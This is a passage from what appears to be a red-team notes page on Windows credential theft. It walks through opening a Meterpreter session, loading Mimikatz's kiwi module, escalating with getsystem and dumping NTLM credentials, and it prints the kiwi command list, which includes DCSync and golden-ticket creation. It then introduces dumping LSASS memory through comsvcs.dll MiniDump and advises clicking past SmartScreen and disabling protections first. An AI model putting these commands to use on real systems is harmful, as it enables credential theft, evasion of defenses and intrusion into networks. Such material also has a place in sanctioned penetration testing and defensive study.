 Where session 5 here is the juicy Meterpreter one! Let's interact with it and use Mimikatz to get some creds.

```
// connect to the Meterpreter session
sessions -i 5

// load the Mimikatz library and get them creeeeds
load kiwi
getsystem
creds_msv

// the help menu in Metasploit is always wonderful, so defs use it all the time hehe
help

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

7. Profit

### COMSVCS Minidump

 Rundl32 can execute the Windows native DLL `comsvcs.dll`, which exports a function called MiniDump. When this export function is called, adversaries can feed in a process ID such as LSASS and create a MiniDump file.

- Requirements:  access to the machine or remote access to a previously installed implant
- Detections: SmartScreen won't be happy with you downloading the beacon from IE, just hit all the 'Run Anyway' prompts, and will also not be happy with you messing with LSASS memory, so turn it off before you run the Minidump
